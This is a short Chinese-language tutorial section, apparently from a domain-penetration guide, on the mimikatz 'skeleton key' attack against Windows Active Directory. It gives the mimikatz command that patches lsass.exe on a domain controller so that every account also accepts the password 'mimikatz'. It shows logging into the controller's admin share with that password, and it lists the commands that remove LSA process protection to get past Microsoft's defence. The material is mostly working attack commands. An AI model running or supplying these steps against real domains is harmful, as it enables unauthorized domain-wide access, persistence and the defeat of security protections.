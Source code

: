 ```yaml
---
title: "5.3 skeleton key"
id: zhfly3436
---
```


### 5.3 skeleton key

skeleton key(万能钥匙)就是给所有域内用户添加一个相同的密码，域内所有的用户 都可以使用这个密码进行认证，同时原始密码也可以使用，其原理是对 lsass.exe 进行注 入，所以重启后会失效。

#### 1、 在域控上安装 skeleton key

```
mimikatz.exe privilege::debug "misc::skeleton" 
```

![image](../img/1fd7bf32b7d689f36134ce87ccbf2b30.png)

#### 2、 在域内其他机器尝试使用 skeleton key 去访问域控

添加的密码是 mimikatz

```
C:\Users\jeff1>net use \\WIN-9P499QKTLDO.adtest.com\c$ mimikatz /user:adtest\adm inistrator 
```

![image](../img/c07b7016a3844de89e2fdacae4287225.png)

#### 3、 微软在 2014 年 3 月 12 日添加了 LSA 爆护策略，用来防止对进程 lsass.exe 的代码注 入。如果直接尝试添加 skelenton key 会失败。

适用系统:

*   windows 8.1
*   windows server 2012 及以上

![image](../img/4167ac70cf59016f010550b9da2eaa3b.png)

当然 mimikatz 依旧可以绕过，命令如下:

```
privilege::debug
!+
!processprotect /process:lsass.exe /remove 
misc::skeleton 
```